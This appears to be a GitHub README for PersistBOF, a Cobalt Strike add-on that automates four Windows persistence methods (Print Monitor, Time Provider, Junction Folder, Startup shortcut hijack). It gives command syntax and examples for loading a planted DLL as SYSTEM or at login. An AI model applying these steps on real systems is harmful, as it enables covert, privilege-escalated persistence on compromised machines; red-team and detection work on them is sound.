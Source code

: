 # PersistBOF
A tool to help automate common persistence mechanisms.  Currently supports Print Monitor (SYSTEM), Time Provider (Network Service), Start folder shortcut hijacking (User), and Junction Folder (User)

## Usage
Clone, run make, add .cna to Cobalt Strike client.

run: help persist-ice in CS console

Syntax:
- persist-ice [PrintMon, TimeProv, Shortcut, Junction] [persist or clean] [key/folder name] [dll / lnk exe name];


## Technique Overview
All of these techniques rely on a Dll file to be seperately placed on disk.  It is intentially not part of the BOF.

### Print Monitor
The Dll MUST be on disk and in a location in PATH (Dll search order) **BEFORE you run the BOF**.  It will fail otherwise.  The Dll will *immediately* be loaded by spoolsv.exe as SYSTEM.  This can be used to elevate from admin to SYSTEM as well as for persistence.  Will execute on system startup. **Must be elevated to run.**

- Demo Print Monitor Dll in project

Example:
1. upload NotMalware.dll to C:\Windows\NotMalware.dll
2. persist-ice PrintMon persist TotesLegitMonitor NotMalware.dll
3. Immediately executes as SYSTEM 
4. Will execute on startup until removed
5. persist-ice PrintMon clean TotesLegitMonitor C:\Windows\NotMalware.dll  > Will delete the registery keys and unload the Dll, then attempt to delete the dll if provided the correct path.  Should succeed.

### Time Provider
Loaded by svchost.exe as NETWORK SERVICE (get your potatoes ready!) on startup after running the BOF.  **Must be elevated to run.**

- Demo Time Provider Dll in project

Example:
- persist-ice TimeProv persist TotesLegitTimeProvider C:\anywhere\NotMalware.dll
- persist-ice TimeProv cleanup TotesLegitTimeProvider C:\anywhere\NotMalware.dll  > Will delete the registry keys and attempt to delete the dll if provided the correct path. Will probably fail because the dll is not unloaded by the process.

### Junction Folder
Same technique as demonstrated in Vault 7 leaks. Executed on user login.  Non-elevated.

Example:

- persist-ice Juction persist TotesLegitFolder C:\user-writable-folder\NotMalware.dll **Save CLSID**
- persist-ice Juction clean TotesLegitFolder C:\user-writable-folder\NotMalware.dll 6be5e092-90cc-452d-be83-208029e259e0 > Will delete the registry keys, junction folder, and attempt to delete the dll. 


### Start Folder Hijack
Create a new, user writeable folder, copy a hijackable windows binary to the folder, then create a shortcut in the startup folder. Executed on user login. Non-elevated.

Example:

- persist-ice Shortcut persist C:\TotesLegitFolder C:\Windows\System32\Dism.exe > upload your Dll as a proxy dll to dismcore.dll into C:\TotesLegitFolder
- persist-ice Shortcut persist C:\TotesLegitFolder C:\Windows\System32\Dism.exe > Will attempt delete all files in new folder then delete the folder itself.  If the Dll is still loaded in the process then this will fail.



## References
https://stmxcsr.com/persistence/print-monitor.html

https://stmxcsr.com/persistence/time-provider.html

https://pentestlab.blog/2019/10/28/persistence-port-monitors/

https://blog.f-secure.com/hunting-for-junction-folder-persistence/

https://attack.mitre.org/techniques/T1547/010/

https://attack.mitre.org/techniques/T1547/003/

https://attack.mitre.org/techniques/T1547/009/
